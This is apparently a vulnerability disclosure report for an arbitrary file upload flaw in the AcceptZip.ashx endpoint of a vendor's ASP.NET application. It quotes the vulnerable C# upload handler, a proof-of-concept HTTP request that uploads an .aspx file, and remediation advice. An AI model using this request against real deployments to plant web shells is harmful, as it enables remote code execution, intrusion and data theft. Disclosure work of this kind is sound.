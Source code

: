 ![image-20250225200601224](./assets/image-20250225200601224.png)

![image-20250225200637273](./assets/image-20250225200637273.png)

# Vulnerability Report
## Vendor Homepage
http://www.zzskzy.com/

## Title: Arbitrary File Upload Vulnerability in AcceptZip.ashx Endpoint

### Summary:
The code in the ProcessRequest method of the AcceptZip.ashx endpoint on the vendor's website contains a vulnerability that allows for arbitrary file uploads.

### Affected Endpoint:
`/AcceptZip.ashx`

### Vulnerability Type: 

Arbitrary File Upload to Remote Code Execution (RCE)

### Vulnerable Code:
```c#
public void ProcessRequest(HttpContext context)
{
    context.Response.ContentType = "text/plain";
    string summers = "一键签收";//接口摘要
    JsonStr jsonResult = new JsonStr();
    try
    {
        string foder = "/sign/Img";
        string uploadPath = HttpContext.Current.Server.MapPath(foder) + "\\";
        string Image1 = "";
        string urlPath = HttpContext.Current.Request.Url.Host + ":" + HttpContext.Current.Request.Url.Port + foder + "/";

        if (!Directory.Exists(uploadPath))//如果文件夹不存在
        {
            Directory.CreateDirectory(uploadPath);//生成文件夹
        }
        HttpFileCollection filecount = context.Request.Files;
        string[] Image;
        int count = filecount.Count;
        Image = new string[count];
        String s = context.Request.Headers.ToString();  // 获得通过HTTP协议协议头传过来的的json数据
        String objStr = HttpUtility.UrlDecode(Utils.GetParamJson(s), Encoding.UTF8);

        Log.Debug(summers, objStr);
        if (objStr.Length == 0)     //objStr.Length == 0
        {
            jsonResult.Msg_code = ReturnCode.paramater_error;
            jsonResult.Msg_info = "\"未传参数\"";
        }
        else
        {
            try
            {
                if (count > 0)
                {
                    for (int i = 0; i < count; i++)
                    {
                        string fileName = DateTime.Now.ToString("yyyyMMddhhmmssfff") + i + Path.GetExtension(filecount[i].FileName);
                        filecount[i].SaveAs(uploadPath + fileName); //任意文件上传漏洞
                        Image[i] = "http://" + urlPath + fileName;
                    }
                }
```

### Proof of Concept (PoC):
```http
POST /AcceptZip.ashx HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="file"; filename="update1.aspx"
Content-Type: text/plain

123
------WebKitFormBoundaryssh7UfnPpGU7BXfK--
```

### Impact:
An attacker can exploit this vulnerability by uploading malicious files, such as web shells, which can lead to remote code execution on the server. This can result in unauthorized access, data leakage, and potential system compromise.

### Recommendation:
1. Validate file uploads by checking file extensions, content types, and implementing secure file upload practices.
2. Restrict file upload permissions to specific directories and avoid executing uploaded files.
3. Regularly monitor and audit file upload activities on the server.

### Conclusion:
The arbitrary file upload vulnerability in the AcceptZip.ashx endpoint poses a significant security risk to the vendor's website, potentially leading to remote code execution. It is crucial to address this issue promptly to prevent exploitation by malicious actors.

### References:
- OWASP File Upload Cheat Sheet: https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
- Microsoft Docs on Secure File Upload: https://docs.microsoft.com/en-us/aspnet/core/mvc/models/file-uploads?view=aspnetcore-6.0
